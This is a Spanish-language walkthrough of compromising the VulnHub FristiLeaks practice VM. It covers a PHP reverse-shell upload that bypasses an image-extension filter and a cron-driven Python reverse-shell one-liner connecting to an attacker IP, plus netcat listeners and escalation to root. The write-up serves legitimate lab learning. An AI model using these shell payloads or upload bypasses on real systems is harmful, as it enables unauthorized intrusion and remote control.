<p align="center">
  
</p>

# Introducción

La máquina FristiLeaks es una máquina fácil que posee una shell de privilegios bajos al explotar la funcionalidad de carga de archivos y se obtienen privilegios elevados con la ayuda de sudo. La máquina está bien diseñada, casi sin agujeros de conejo, lo cual es bueno para principiantes. La maquina está disponible en: [https://www.vulnhub.com/entry/fristileaks-13,133/](https://www.vulnhub.com/entry/fristileaks-13,133/)

# CWE

- CWE-359: Exposure of Private Personal Information to an Unauthorized Actor
- CWE-434: Unrestricted Upload of File with Dangerous Type
- CWE-732: Incorrect Permission Assignment for Critical Resource

# Fase de reconocimiento

Como la máquina Fristileaks se encuentra corriendo en VirtualBox en modo de red "sólo anfitrión" y no sé su dirección IP, ejecuto este comando para buscarla:

```go
nmap -sP 192.168.56.1/24
```
Una vez obtenemos su dirección IP (en mi caso es 192.168.56.5), procedemos a ver que puertos tiene abiertos:

```go
nmap -p- -open -T5 -vvv -n -oN puertosAbiertos 192.168.56.5
```

Obtenemos:

<p align="center">
  
</p>

Tenemos solamente el puerto 80 abierto, por lo que nuestro navegador procedemos a ver la página que está corriendo en la máquina objetivo:

<p align="center">
  
</p>

Ahora hacemos una análisis profundo del único puerto abierto encontrado con:

```go
nmap -sCV -p80 192.168.56.5 -oN masInfo
```

Obtenemos algo de información relevante:

<p align="center">
  
</p>

Ahora hacemos fuerza bruta con diccionario usando la herramienta ***gobuster*** para buscar rutas/secciones disponibles dentro de nuestro aplicativo web:

```go
gobuster dir -x php,txt,js,html -u http://192.168.56.5/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Obtenemos algunas rutas interesantes:

<p align="center">
  
</p>

En la ruta robots.txt tenemos:

<p align="center">
  
</p>

Pero al acceder a esas rutas siempre obtenemos la imagen de URL inválida:

<p align="center">
  
</p>

Cuando intentamos con la ruta ***/fristi*** encontramos la página de inicio de sesión, el cual puede ayudarnos con nuestro objetivo. Al analizar el código fuente de la página de inicio de sesión, vemos algunos comentarios que dejaron los desarrolladores (con fines de desarrollo), y podemos aprovechar este error para obtener algo de información. En estos comentarios encontramos algo parecido a texto en base64:

<p align="center">
  
</p>

Convertimos el anterior fragmento de base64 a texto:

<p align="center">
  
</p>

Deducimos que el usuario para el inicio de sesión es el autor de los comentarios (eezeepz) y la contraseña es la cadena de texto descifrada (keKkeKKeKKeKkEkkEk).


<p align="center">
  
</p>

***Nota:*** Esta página nos ayuda a escribir el texto que hay en una imagen [https://www.onlineocr.net/](https://www.onlineocr.net/)

<p align="center">
  
</p>

Aquí encontraremos una sección para subir archivos, y puede significar que podemos subir un archivo con un exploit para ejecutar una shell remota:

<p align="center">
  
</p>

Pero solo nos deja subir archivos con extensión de imagen: png, jpg, gif

<p align="center">
  
</p>

Descargamos un exploit para ejecutar una reverse shell disponible en [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) y lo descomprimimos:

<p align="center">
  
</p>

De este archivo modificamos la dirección IP de nuestra máquina (máquina atacante) y el puerto por donde queremos recibir la shell remota (en mi caso 1234):

<p align="center">
  
</p>

Por último modificamos la extensión del archivo con el exploit a “.php.png” para que esta última extensión (png) sea la detectada por el aplicativo web (a pesar de ello, los magic numbers del archivo lo detectan como un archivo PHP):

<p align="center">
  
</p>

Lo subimos:

<p align="center">
  
</p>

Y efectivamente se encuentra cargado en la ruta /uploads:

<p align="center">
  
</p>

Nos ponemos en escucha en nuestra máquina atacante por el puerto 1234 (configurado anteriormente en el exploit) con ayuda de la herramienta netcat:

```bash
nc -nvlp 1234
```

Y abrimos el archivo/exploit dentro del aplicativo, lo que automáticamente enviará una reverse shell:

<p align="center">
  
</p>

Al navegar por los directorios de la shell remota detectamos tres directorios en el directorio home, correspondiente a tres usuarios del sistema, pero solo uno de ellos tiene permisos de acceso (eezeepz). Cuando listamos el contenido de este directorio encontramos muchos archivos binarios:

<p align="center">
  
</p>

Y sí notamos también, hay un archivo llamado ***notes.txt***:

<p align="center">
  
</p>

El cual contiene:

<p align="center">
  
</p>

Esta nota nos acaba de decir que podemos correr comandos con privilegios del usuario “admin” escribiendo estos en un archivo llamado “runthis” dentro del directorio /tmp, y estos comandos serán ejecutados cada minuto; por último, la respuesta de cada comando será notificada en un archivo llamado “cronresult” dentro de /tmp. Entonces debemos crear el archivo “runthis” en /tmp:

<p align="center">
  
</p>

E introducimos un reverse shell de python (o en cualquier otro lenguaje soportado por la máquina remota) en este archivo, y esperamos un minuto:

```python
/usr/bin/python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.1",8000));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

<p align="center">
  
</p>

Mientras tanto, nos ponemos en escucha con netcat en nuestra máquina atacante por el puerto 8000:

```bash
nc -nvlp 8000
```

<p align="center">
  
</p>

Archivo “cronresult”:

<p align="center">
  
</p>

Y hemos entablado la reverse shell del usuario “admin”:

<p align="center">
  
</p>

Ahora que podemos acceder al directorio del usuario admin (/home/admin), vemos dos archivos cifrados y un programa en python que fue usado para cifrar estos archivos:

<p align="center">
  
</p>

Entonces, conociendo el código en python que fue usado para cifrar el texto en esos dos archivos, aplicamos ingenieria inversa para descifrar el texto en ellos. El cṕdigo en python para descifrarlos quedaría así:

```python
import base64,codecs,sys

def decodeString(str):
      decrypt = codecs.decode(str[::-1], 'rot13')
      return base64.b64decode(decrypt)

decryptoResult = decodeString(sys.argv[1])
print decryptoResult
```

<p align="center">
  
</p>

El texto descifrado es:

<p align="center">
  
</p>

Y el texto “LetThereBeFristi!” es la contraseña del usuario “fristigod”, el cual accedemos con:

```bash
su fristigod
```

Al ver el directorio de fristigod solo encontramos un archivo, pero nada relevante, por lo que usamos el siguiente comando para ver qué otros archivos pertenecientes a este usuario se encuentran en el sistema:

```bash
find / -user fristigod | grep fristigod
```

Y obtenemos tres archivos importantes:

<p align="center">
  
</p>

Al husmear el historial de comandos (.bash_history) del usuario fristigod, observamos que ha ejecutado un archivo llamado “doCom” que aparentemente le da permisos para ejecutar comandos con privilegios de usuario root:

<p align="center">
  
</p>

Aprovechamos esto para entablar una reverse shell con permisos de usuario root, y obtenemos la flag:

<p align="center">
  
</p>


<br>

Fuente: [https://www.youtube.com/watch?v=jPW_0BFxAYU](https://www.youtube.com/watch?v=jPW_0BFxAYU)
